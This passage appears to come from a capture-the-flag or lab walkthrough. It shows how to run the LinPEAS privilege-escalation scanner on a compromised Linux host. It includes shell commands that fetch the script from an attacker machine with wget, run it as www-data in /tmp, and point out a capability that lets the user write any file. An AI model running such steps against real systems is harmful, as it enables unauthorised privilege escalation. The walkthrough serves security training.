

5.1 Linpeas
1. Installing
LinPEAS.
LinPEAS is a script that search for possible paths to escalate privileges on Linux/Unix*/MacOS hosts. The checks are explained on
book.hacktricks.xyz.
2. On your Kali Machine create a “linpeas.sh” file with content of
https://github.com/RajatSethi2001/linpeas/blob/main/linpeas.sh.
3. Go to the victim's "/tmp' directory and get the “linpeas.sh” file.
www-data@juggling:~/s3cur3$ cd /tmp
www-data@juggling:/tmp$ wget http://192.168.12.10:8000/linpeas.sh
4. Make the “linpeas.sh” file executable.
www-data@juggling:/tmp$ chmod +x linpeas.sh
5. Run “linepeas.sh” file with output file.
www-data@juggling:/tmp$./linpeas.sh | tee output
6. You can see the “output” file to see the results.
www-data@juggling:/tmp$ cat output
In the “Capabilities” section you can see the following line.
Output: 
This means that you can bypass write permission checks on any file, so you can write any file.